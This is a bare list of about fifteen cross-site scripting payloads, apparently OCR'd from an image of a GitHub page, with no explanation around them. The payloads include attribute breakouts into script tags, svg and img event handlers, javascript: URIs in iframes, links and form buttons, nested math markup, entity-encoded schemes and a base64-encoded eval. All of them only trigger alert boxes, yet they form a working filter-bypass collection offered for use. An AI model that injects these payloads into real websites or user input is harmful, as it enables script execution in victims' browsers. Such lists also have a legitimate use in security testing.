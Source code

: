 "><script>alert(1)</script>
<svg onload=alert(1)>
<iframe src=javascript:alert(1)>
<math><mtext></mtext><annotation-xml><img src=x onerror=alert(1)></annotation-xml></math>
<video><source onerror="alert(1)"></video>
<svg><foreignObject><body xmlns="http://www.w3.org/1999/xhtml"><script>alert(1)</script></body></foreignObject></svg>
<iframe srcdoc="<script>alert('XSS')</script>"></iframe>
<img src=x onerror="this.onerror=null;alert(1)">
<svg><a xlink:href='javascript:alert(1)'>X</a></svg>
<form><button formaction="javascript:alert(1)">Click</button></form>
<iframe srcdoc='<svg onload=alert(1)>'>
<a href=javascript&colon;alert(1)>click</a>
<img src onerror=alert`XSS`>
<svg onload=eval(atob('YWxlcnQoMSk='))>
<object data=javascript:alert(1)>
